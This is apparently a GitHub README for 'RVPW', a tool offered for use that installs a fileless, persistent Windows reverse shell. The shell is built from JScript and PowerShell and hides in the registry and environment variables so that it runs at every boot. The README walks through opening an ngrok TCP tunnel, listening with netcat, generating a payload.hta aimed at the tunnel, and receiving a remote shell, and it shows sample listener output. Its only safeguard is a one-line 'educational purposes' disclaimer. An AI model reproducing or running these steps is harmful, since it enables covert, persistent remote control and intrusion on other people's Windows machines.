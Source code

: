 # RVPW - misk0zz

# Reverse Shell Persistent Windows (RVPW) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>

Disclaimer: this program is only for educational purposes

This repository is in the process of being updated with improvements in the script, if you have any suggestions or help do not hesitate to let me know at the following email: misk0z@proton.me

## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python3 generador.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[kali@kali]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
